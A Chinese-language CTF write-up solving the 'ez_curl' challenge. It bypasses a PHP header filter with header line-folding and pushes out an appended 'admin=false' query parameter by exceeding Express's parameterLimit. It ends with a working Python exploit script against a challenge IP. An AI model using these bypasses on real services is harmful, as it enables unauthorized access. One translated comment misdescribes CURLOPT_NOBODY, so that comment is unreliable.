 

# ez_curl

![image-20240804235208917](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240804235208917.png)

首先点击页面是php代码审计

```php
<?php
highlight_file(__FILE__);
$url = 'http://back-end:3000/flag?';
$input = file_get_contents('php://input');
$headers = (array)json_decode($input)->headers;
for($i = 0; $i < count($headers); $i++){
    $offset = stripos($headers[$i], ':');
    $key = substr($headers[$i], 0, $offset);
    $value = substr($headers[$i], $offset + 1);
    if(stripos($key, 'admin') > -1 && stripos($value, 'true') > -1){
        die('try hard');
    }
}
$params = (array)json_decode($input)->params;
$url .= http_build_query($params);
$url .= '&admin=false';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
curl_setopt($ch, CURLOPT_TIMEOUT_MS, 5000);
curl_setopt($ch, CURLOPT_NOBODY, FALSE);
$result = curl_exec($ch);
curl_close($ch);
echo $result;
```

并且给了一个附件

```js
const express = require('express');

const app = express();

const port = 3000;
const flag = process.env.flag;

app.get('/flag', (req, res) => {
    if(!req.query.admin.includes('false') && req.headers.admin.includes('true')){
        res.send(flag);
    }else{
        res.send('try hard');
    }
});

app.listen({ port: port , host: '0.0.0.0'});

```

通过app.js的审计得到是一个express框架代码

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/a41c312909a0c4e0a6b55aa8270b16d6.png)

首先对喂给ai进行代码逐行翻译

```php
<?php
// 输出当前文件的内容
highlight_file(__FILE__);

// 设置一个URL变量，指向后端服务的某个端点
$url = 'http://back-end:3000/flag?';

// 从输入流中获取请求的内容
$input = file_get_contents('php://input');

// 将请求内容解码成JSON对象并提取headers属性，转换为数组
$headers = (array)json_decode($input)->headers;

// 遍历headers数组
for($i = 0; $i < count($headers); $i++){
    // 找到header中冒号的位置
    $offset = stripos($headers[$i], ':');

    // 提取header的键（冒号前的部分）
    $key = substr($headers[$i], 0, $offset);

    // 提取header的值（冒号后的部分）
    $value = substr($headers[$i], $offset + 1);

    // 如果键包含'admin'并且值包含'true'，则终止程序执行并输出'try hard'
    if(stripos($key, 'admin') > -1 && stripos($value, 'true') > -1){
        die('try hard');
    }
}

// 从请求内容中提取params属性，转换为数组
$params = (array)json_decode($input)->params;

// 将参数数组编码为URL查询字符串，并附加到URL变量后
$url .= http_build_query($params);

// 在URL末尾附加一个参数'admin=false'
$url .= '&admin=false';

// 初始化一个cURL会话
$ch = curl_init();

// 设置cURL会话的URL
curl_setopt($ch, CURLOPT_URL, $url);

// 设置cURL会话的HTTP头
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);

// 设置cURL会话的超时时间为5000毫秒
curl_setopt($ch, CURLOPT_TIMEOUT_MS, 5000);

// 设置cURL会话不返回响应体
curl_setopt($ch, CURLOPT_NOBODY, FALSE);

// 执行cURL会话
$result = curl_exec($ch);

// 关闭cURL会话
curl_close($ch);

// 输出cURL会话的结果
echo $result;
?>

```

在这里有过滤，要求admin传参不包含'false'并且headers请求头里的admin字段包含'true'



对于flase因为是拼接上去的，可以参考网上的思路，因为express的parameterLimit默认为1000，但添加足够的没用的参数就可以挤掉原有的拼接的&admin=flase。

后一个条件，要求headers里的admin字段包含'true'就行了

这个条件在之前的php中还有过滤，要求传入不能带入admin+true

参考了网上的思路：header 字段可以通过在每一行前面至少加一个SP 或 HT 来扩展到多行。以此绕过对 headers 的过滤

例如，假设请求头如下：

```
swift复制代码{
  "headers": [
    "admin: \n true"
  ],
  "params": {
    "id": 1
  }
}
```

在这种情况下，代码在检查 `stripos($headers[$i], ':')` 时，`$key` 为 `"admin"`，但是 `$value` 为 `"\n true"`。因为字符串 `"\n true"` 中 `stripos` 不会直接找到 "true"，因此绕过了检查。

但是这样构造却并没有绕过

这是wp中的绕过

```
xx:xx\nadmin: true
```

这是我的绕过

```
admin: \n true
```

百思不得其解，于是又各种上网查，得到一种新方法

```
"admin: x", " true: y"
```

该headers在nodejs解析的时候，会得到如下数据：

```
{
  "admin": "x true y"
}
```

不过据查阅，根据RFC 7230(HTTP/1.1协议的定义)的规定，规定了 field-name 是由一个或多个打印的 ASCII 字符组成，不包括分隔符，包括空格。因此，如果一个 field-name 的第一个字符是空格，那么这个 HTTP header 是非法的，应该被服务器或客户端忽略或拒绝，然而，Node.js 在处理这类情况时通常是宽容的。

所以\n和x，y的构造应该是一个思路

参考后的playload如下，进行绕过得到flag

```python
import requests
import json
from flask.sessions import SecureCookieSessionInterface

url = "http://61.147.171.105:57701/"

datas = {"headers": ["admin: x", " true: y", "Content-Type: application/json"],
         "params": {"admin": "true"}}

for i in range(1020):
    datas["params"]["x" + str(i)] = i

headers = {
    "Content-Type": "application/json"
}
json1 = json.dumps(datas)
print(json1)
resp = requests.post(url, headers=headers, data=json1)

print(resp.content)
```

